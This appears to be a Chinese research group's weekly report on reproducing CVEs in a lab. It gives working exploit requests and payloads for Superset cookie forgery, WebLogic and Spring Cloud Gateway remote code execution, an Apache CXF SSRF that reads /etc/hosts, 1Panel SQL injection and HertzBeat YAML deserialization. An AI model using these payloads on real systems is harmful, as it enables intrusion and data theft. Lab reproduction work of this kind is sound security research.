







# 2025-12-18 组会周报

## TODO

- 手动多复现几个漏洞
- 人工标注（漏洞利用类型：复现）
- MCPtool+deepresearch（人的工作变成知识工具）
- vulhub仓库页面提取改到本地
- 自然语言描述漏洞

## 漏洞复现

### CVE-2023-27524 (auth_bypass 认证绕过)

```bash
# 安装依赖
pip install -r requirements.txt

# 生成 ID=1（默认管理员）的伪造 Cookie 并验证漏洞
python3 CVE-2023-27524.py --url http://172.21.129.98:8088 --id 1 --validate
```

该脚本尝试使用已知的默认密钥破解会话Cookie，它将伪造一个新的会话Cookie，其中user_id=1（通常是管理员用户），并验证登录。



将这个伪造的JWT令牌添加到Cookie值中，`Cookie: session=eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.aUJrdA.fzJCJGg8YUtpQXPeAjS4mg1UApk`，即可访问Superset的后端API。



### CVE-2020-14882 (rce 远程代码执行)

首先测试权限绕过漏洞，访问以下URL，即可未授权访问到管理后台页面：

```bash
http://172.21.129.98:7001/console/css/%252e%252e%252fconsole.portal
```
访问后台后，可以发现我们现在是低权限的用户，无法安装应用，所以也无法直接执行任意代码。

这个漏洞的利用方式有两种:

1. 通过 `com.tangosol.coherence.mvel2.sh.ShellSession`

直接访问如下URL，即可利用com.tangosol.coherence.mvel2.sh.ShellSession执行命令：

```bash
http://172.21.129.98:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```

进入容器，可以发现`touch /tmp/success1`已成功执行。

2. 通过 `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`

首先，构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上http://172.21.129.98:80/rce.xml

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```bash
http://172.21.129.98:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://172.21.129.98:80/rce.xml")
```
进入容器，可以发现`touch /tmp/success2`已成功执行。


### CVE-2022-22947 (rce 远程代码执行、expression_injection 表达式注入)


CVE-2022-22947 是由于 Spring Cloud Gateway 存在 SpEL 表达式注入漏洞，可通过构造恶意请求触发。

```bash
# 添加恶意路由（创建/tmp/flag文件）
curl "http://172.21.129.98:8080/actuator/gateway/routes/exploit" -X POST \
  -H "Content-Type: application/json" \
  -d '{
    "id": "exploit",
    "uri": "http://example.com",
    "predicates": ["Path=/exploit"],
    "filters": [
      {
        "name": "AddResponseHeader",
        "args": {
          "name": "CMD",
          "value": "#{T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/flag\")}"
        }
      }
    ]
  }'

# 刷新路由
curl "http://172.21.129.98:8080/actuator/gateway/refresh" -X POST

# 触发命令并查看文件是否存在
curl "http://172.21.129.98:8080/exploit"
docker exec $(docker ps -qf "name=spring") ls /tmp | grep flag
```

返回flag，说明命令执行成功



### CVE-2024-28752 (ssrf 服务端请求伪造)

服务启动后，存在漏洞的 CXF Web 服务将可以通过 `http://172.21.129.98:8080/test?wsdl` 访问。该服务配置为使用 Aegis
DataBinding 并接受各种参数类型，使其容易受到 SSRF 攻击。

发送如下请求即可触发 SSRF 读取 `/etc/hosts` 文件内容：

```bash
POST /test HTTP/1.1
Host: 172.21.129.98:8080
Content-Type: multipart/related; boundary=----kkkkkk123123213
Content-Length: 472
Connection: close

------kkkkkk123123213
Content-Disposition: form-data; name="1"

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://service.namespace/">
   <soapenv:Header/>
   <soapenv:Body>
      <web:test>
         <arg0>
<count><xop:Include xmlns:xop="http://www.w3.org/2004/08/xop/include" href="file:///etc/hosts"></xop:Include></count>
</arg0>
      </web:test>
   </soapenv:Body>
</soapenv:Envelope>
------kkkkkk123123213--
```



### CVE-2024-39907 (sql_injection SQL注入)

访问 `http://172.21.129.98:10086/entrance`，使用以下默认凭据登录，用户名：1panel，密码：1panel_password

登录1Panel控制面板后，漏洞存在于/api/v1/hosts/command/search接口中，orderBy参数缺乏适当的输入验证，导致SQL注入攻击。

发送以下恶意POST请求来利用该漏洞：

```bash
POST /api/v1/hosts/command/search HTTP/1.1
Host: 172.21.129.98:10086
Accept-Language: zh
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Cookie: psession=3c871f96-2ccc-43f2-8a28-9ec30ae38dfb
Connection: close
Content-Type: application/json
Content-Length: 83

{
  "page":1,
  "pageSize":10,
  "groupID":0,
  "orderBy":"3;ATTACH DATABASE '/tmp/randstr.txt' AS test;create TABLE test.exp (data text);create TABLE test.exp (data text);drop table test.exp;",
  "order":"ascending",
  "name":"a"
}
```

`orderBy`参数中的恶意负载利用SQLite的ATTACH DATABASE功能在服务器文件系统上创建任意文件，演示了成功的SQL注入攻击。处理请求时，1Panel后端会执行注入的SQL命令而不进行验证，确认漏洞存在且可被利用。



这些数据库操作命令的成功执行证明SQL注入漏洞可以被利用来实现潜在的远程代码执行。

### CVE-2024-42323（deserialization 反序列化）

访问 `http://172.21.129.98:1157/dashboard` 进入 HertzBeat 控制面板。默认登录凭据为：用户名：admin，密码：hertzbeat

首先，准备一个恶意 YAML 文件，文件名必须以 .yaml 结尾，内容如下：

```bash
!!org.h2.jdbc.JdbcConnection [ "jdbc:h2:mem:test;MODE=MSSQLServer;INIT=drop alias if exists exec\\;CREATE ALIAS EXEC AS $$void exec() throws java.io.IOException { Runtime.getRuntime().exec(\"touch /tmp/success\")\\; }$$\\;CALL EXEC ()\\;", [], "a", "b", false ]
```

然后登录 HertzBeat 后台，导航到任意监控页面，导入恶意 YAML 文件。

HertzBeat 对 YAML 文件进行反序列化时，触发远程代码执行：



如果攻击成功，payload 将在目标系统上执行,通过检查容器中是否存在新创建的文件来验证执行结果：


